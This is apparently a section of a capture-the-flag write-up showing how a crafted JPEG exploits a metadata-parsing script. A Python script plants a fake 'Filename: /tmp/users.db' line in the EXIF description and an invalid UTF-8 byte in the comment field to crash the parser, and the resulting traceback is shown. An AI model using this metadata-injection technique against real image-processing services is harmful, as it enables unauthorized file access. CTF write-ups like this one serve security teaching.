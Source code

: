 
## Execution

Now we'll address the problem from earlier; how do you force one of the lines you insert into the EXIF data to be the last line in the file when the last thing that the `compute.py` file does is set the filename?

```py
...
fout.write('Timestamp: %s\n' % time.ctime())
fout.write('Filename: %s\n' % os.path.basename(input_file))
fout.write('== end ==\n')

fout.close()    
```

We'll need to somehow break out of this script before it can reach the end.

This script is what we used. In particular, our filename is added to the metadata file with the ImageDescription EXIF data, and the UserComment crashes `compute.py` in order to allow our ImageDescription to be the last thing added to the metadata file.

```py
from PIL import Image

IMAGE_DESC = 0x010E
USER_COMMENT = 0x9286

input_file = "./input.jpg"
output_file = "./output.jpg"

desc_payload = "\n\nFilename: /tmp/users.db"  # symlink to users.db
comment_payload = b'\x80' # crash when reading user comment

image = Image.open(input_file)
exif = image.getexif()
exif[IMAGE_DESC] = desc_payload
exif[USER_COMMENT] = comment_payload

image.save(output_file, exif=exif)
```
In this script, we're taking advantage of invalid UTF-8 sequences to crash compute.py. This code contains a payload with the byte `\x80`—a continuation byte in UTF-8 encoding. Continuation bytes (10xxxxxx) are used in multi-byte sequences and must come after a valid leading byte, which specifies the structure and length of the character. By starting with a continuation byte instead of a valid leading byte, we deliberately create an invalid UTF-8 sequence, causing Python to throw a decoding error when it attempts to process these bytes.

This is what happens in `compute.py` when it tries to process our malicious JPG:
```bash
solution $ python3 compute.py
...
Reading Image Description: '\n\nFilename: /tmp/users.db'
Reading User Comment: b'\x80'
Traceback (most recent call last):
  File "~/iCTF/boing/compute.py", line 52, in <module>
    value = value.decode()
            ^^^^^^^^^^^^^^
UnicodeDecodeError: 'utf-8' codec can't decode byte 0x80 in position 0: invalid start byte
```
